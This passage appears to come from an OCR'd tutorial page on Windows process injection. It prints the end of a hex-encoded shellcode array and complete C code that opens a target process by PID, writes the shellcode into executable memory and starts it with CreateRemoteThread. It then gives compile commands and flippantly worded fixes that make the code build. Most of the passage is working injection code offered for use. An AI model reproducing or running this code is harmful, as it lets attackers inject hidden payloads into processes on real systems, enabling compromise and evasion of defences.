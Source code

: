 ```c  
		"\\xf0\\x25\\xd1\\x5b\\xe4\\x9a\\xa3\\xc2\\x84\\xfe\\x2b\\x11\\x59\\xbf\\xe8"
		"\\xe3\\xc1\\x8d\\x05\\x5c\\x71\\xe2\\x6b\\xea\\xf8\\xef\\xb8\\xdd\\xea\\x61"
		"\\xb4\\x22\\x80\\xcb\\xe5\\xe4\\x57\\x5a\\xad\\xd0\\x14\\x41\\x90\\xb8\\xad"
		"\\x94\\x64\\x5d\\xae\\x2b\\x90\\xe1\\xec";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
}
```  

Compile the code and run it...  

```  
gcc example-1.c -o example-1.exe
```  

**Notice anything?**  

## W teh F Tim, teh codes do3sn't works.  

**Yeah, we need to make a few changes to defeat teh Skript kitty protections...**  

**Change the lines **

```c  
#include "stdafx.h"
```  

to  

```c  
#include "stdio.h"
```  

and  

```c  
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
```  

to  

```c  
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));
```  
